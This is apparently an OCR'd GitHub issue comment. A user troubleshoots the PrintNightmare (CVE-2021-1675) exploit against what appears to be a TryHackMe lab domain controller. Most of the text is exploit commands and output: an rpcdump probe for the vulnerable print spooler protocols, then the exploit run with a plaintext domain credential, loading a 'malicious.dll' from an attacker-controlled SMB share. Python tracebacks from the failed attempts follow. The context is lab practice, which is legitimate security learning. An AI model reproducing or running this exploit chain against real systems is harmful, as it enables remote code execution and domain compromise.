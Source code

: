 ```
    return dce.request(request)
  File "/usr/local/lib/python3.10/dist-packages/impacket-0.9.24.dev1+20210704.162046.29ad5792-py3.10.egg/impacket/dcerpc/v5/rpcrt.py", line 878, in request
    raise exception
impacket.dcerpc.v5.rprn.DCERPCSessionError: RPRN SessionError: code: 0x35 - ERROR_BAD_NETPATH - The network path was not found.

giv me some error 


now works for me, iptables was denying traffic

┌──(root㉿kali)-[~/home/witty/Desktop/impacket]
└─# rpcdump.py @10.10.66.59 | egrep 'MS-RPRN|MS-PAR' 
Protocol: [MS-PAR]: Print System Asynchronous Remote Protocol 
Protocol: [MS-RPRN]: Print System Remote Protocol 


┌──(root㉿kali)-[~/home/witty/Desktop/CVE-2021-1675]
└─# python CVE-2021-1675.py Finance-01.THMdepartment.local/sjohnston:mindheartbeauty76@10.10.66.59 '\\10.8.19.103\share\malicious.dll'
[*] Connecting to ncacn_np:10.10.66.59[\PIPE\spoolss]
[+] Bind OK
[+] pDriverPath Found C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_83aa9aebf5dffc96\Amd64\UNIDRV.DLL
[*] Executing \??\UNC\10.8.19.103\share\malicious.dll
[*] Try 1...
[*] Stage0: 0
[*] Try 2...
[*] Stage0: 0
[*] Try 3...
Traceback (most recent call last):
  File "/usr/local/lib/python3.10/dist-packages/impacket-0.9.24.dev1+20210704.162046.29ad5792-py3.10.egg/impacket/smbconnection.py", line 568, in writeFile
    return self._SMBConnection.writeFile(treeId, fileId, data, offset)
  File "/usr/local/lib/python3.10/dist-packages/impacket-0.9.24.dev1+20210704.162046.29ad5792-py3.10.egg/impacket/smb3.py", line 1650, in writeFile
    written = self.write(treeId, fileId, writeData, writeOffset, len(writeData))
  File "/usr/local/lib/python3.10/dist-packages/impacket-0.9.24.dev1+20210704.162046.29ad5792-py3.10.egg/impacket/smb3.py", line 1358, in write
    if ans.isValidAnswer(STATUS_SUCCESS):
  File "/usr/local/lib/python3.10/dist-packages/impacket-0.9.24.dev1+20210704.162046.29ad5792-py3.10.egg/impacket/smb3structs.py", line 454, in isValidAnswer
    raise smb3.SessionError(self['Status'], self)
impacket.smb3.SessionError: SMB SessionError: STATUS_PIPE_CLOSING(The specified named pipe is in the closing state.)

During handling of the above exception, another exception occurred:

Traceback (most recent call last):
  File "/root/home/witty/Desktop/CVE-2021-1675/CVE-2021-1675.py", line 192, in <module>
    main(dce, pDriverPath, options.share)
  File "/root/home/witty/Desktop/CVE-2021-1675/CVE-2021-1675.py", line 93, in main
    resp = rprn.hRpcAddPrinterDriverEx(dce, pName=handle, pDriverContainer=container_info, dwFileCopyFlags=flags)
  File "/usr/local/lib/python3.10/dist-packages/impacket-0.9.24.dev1+20210704.162046.29ad5792-py3.10.egg/impacket/dcerpc/v5/rprn.py", line 633, in hRpcAddPrinterDriverEx
    return dce.request(request)
  File "/usr/local/lib/python3.10/dist-packages/impacket-0.9.24.dev1+20210704.162046.29ad5792-py3.10.egg/impacket/dcerpc/v5/rpcrt.py", line 856, in request
    self.call(request.opnum, request, uuid)
  File "/usr/local/lib/python3.10/dist-packages/impacket-0.9.24.dev1+20210704.162046.29ad5792-py3.10.egg/impacket/dcerpc/v5/rpcrt.py", line 845, in call
```